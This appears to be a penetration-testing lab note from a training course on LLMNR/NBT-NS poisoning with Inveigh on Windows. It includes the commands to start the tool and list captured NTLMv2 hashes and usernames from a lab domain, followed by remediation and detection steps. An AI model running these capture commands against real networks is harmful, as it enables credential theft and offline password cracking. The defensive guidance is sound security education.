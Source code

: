# LLMNR/NBT-NS Poisoning - from Windows (+REMEDIATION)

***

### <mark style="color:red;">Using Inveigh</mark>

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
{% endcode %}

We can see that we immediately begin getting LLMNR and mDNS requests. The below animation shows the tool in action.

<figure><img src="../../.gitbook/assets/inveigh_pwsh.png" alt=""><figcaption></figcaption></figure>

We can also see the message `Press ESC to enter/exit interactive console`

```powershell-session
<SNIP>

C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing `HELP` and hitting enter, we are presented with several options

{% code fullWidth="true" %}
```powershell-session

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
<SNAP>
STOP                            | stop Inveigh
```
{% endcode %}

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
Hashes
backupagent::INLANEFREIGHT:B5013246091943D7:16A41000400020000000800300030
forend::INLANEFREIGHT:32FD80440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E0045004600520045004
<SNIP>
```
{% endcode %}

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

{% code fullWidth="true" %}
```powershell-session

=================================================== NTLMv2 Usernames ===================================================

IP Address                        Host                              Username                          Challenge
========================================================================================================================
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\backupagent       | B5013246091943D7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\forend            | 32FD89BD78804B04
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\clusteragent      | 28BF08D82FA998E4
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\wley              | 277AC2ED022DB4F7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\svc_qualys        | 5F9BB670D23F23ED
```
{% endcode %}

Let's start Inveigh and then interact with the output a bit to put it all together.

<figure><img src="../../.gitbook/assets/inveigh_csharp.png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:red;">Remediation</mark>

Mitre ATT\&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

**There are a few ways to mitigate this attack. To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.**&#x20;

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

<figure><img src="../../.gitbook/assets/llmnr_disable.webp" alt=""><figcaption></figcaption></figure>

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

<figure><img src="../../.gitbook/assets/disable_nbtns.webp" alt=""><figcaption></figcaption></figure>

While it is not possible to disable NBT-NS directly via GPO, we can create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:

{% code overflow="wrap" fullWidth="true" %}
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
{% endcode %}

In the Local Group Policy Editor, we will need to double click on `Startup`, choose the `PowerShell Scripts` tab, and select "For this GPO, run scripts in the following order" to `Run Windows PowerShell scripts first`, and then click on `Add` and choose the script. For these changes to occur, we would have to either reboot the target system or restart the network adapter.

<figure><img src="../../.gitbook/assets/nbtns_gpo.webp" alt=""><figcaption></figcaption></figure>

To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.
{% endhint %}

***

### <mark style="color:red;">Detection</mark>

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. This [blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) explains this method more in-depth.

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs [4697](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697) and [7045](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) can be monitored for. Finally, we can monitor the registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.

***
